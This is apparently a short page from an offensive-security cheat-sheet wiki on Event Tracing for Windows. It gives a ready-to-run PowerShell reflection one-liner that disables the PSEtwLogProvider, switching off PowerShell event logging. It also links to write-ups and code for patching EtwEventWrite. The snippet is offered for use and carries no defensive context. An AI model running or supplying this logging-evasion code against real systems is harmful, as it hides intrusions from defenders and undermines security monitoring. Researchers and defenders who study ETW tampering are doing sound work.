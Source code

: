 ```yaml
---
description: Event Tracing for Windows
---
```


# ETW

- [https://bmcder.com/blog/a-begginers-all-inclusive-guide-to-etw](https://bmcder.com/blog/a-begginers-all-inclusive-guide-to-etw)




## Disable PSEtwLogProvider

- [https://gist.github.com/tandasat/e595c77c52e13aaee60e1e8b65d2ba32](https://gist.github.com/tandasat/e595c77c52e13aaee60e1e8b65d2ba32)

```powershell
[Reflection.Assembly]::LoadWithPartialName('System.Core').GetType('System.Diagnostics.Eventing.EventProvider').GetField('m_enabled','NonPublic,Instance').SetValue([Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static').GetValue($null),0)
```




## Patch EtwEventWrite

- [https://www.mdsec.co.uk/2020/03/hiding-your-net-etw/](https://www.mdsec.co.uk/2020/03/hiding-your-net-etw/)
- [https://github.com/Flangvik/NetLoader/blob/master/Source/Program.cs#L241-L258](https://github.com/Flangvik/NetLoader/blob/master/Source/Program.cs#L241-L258)
